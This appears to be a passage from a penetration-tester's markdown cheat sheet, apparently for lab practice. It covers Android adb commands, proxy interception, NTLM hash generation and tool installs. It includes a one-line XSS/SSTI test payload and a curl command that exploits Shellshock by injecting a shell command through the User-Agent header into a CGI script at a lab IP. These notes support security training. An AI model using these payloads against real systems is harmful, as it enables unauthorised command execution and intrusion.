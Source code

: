 | `adb restore backup.ab` | restore a previous backup
| `adb shell am start -a android.intent.action.VIEW -d URL` | open URL
| `adb shell am start -t image/* -a android.intent.action.VIEW` | opens gallery

### Network
  
  | COMMAND | EXPLANATION |
  |---------|--------------|
  | `adb shell settings put global http_proxy 10.10.14.16:8080` |  Set a `proxy` to intercept requests |
  | `adb shell settings put global http_proxy :0` |  Remove `proxy`
---------------------------------------------------------------------------------------------------------
# Extra notes

### make NTML hash from password

```bash
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

### snap

```
sudo apt install snapd
```
```
service snapd start
```
```
sudo systemctl start snapd.service
```

### SMTP

* install `smtp` mail reader
```
sudo apt install evolution
```
### SQLi XSS SSTI
`one line payload`
```
<svg onload="prompt(5);">{{7*7}}</svg>
```

### ShellShock
`exploit by curl`
```
curl -H 'User-Agent: () { :; }; echo ; echo ; /usr/bin/id' bash -s :'' http://10.10.10.56/cgi-bin/user.sh
```
### grep
#### emails
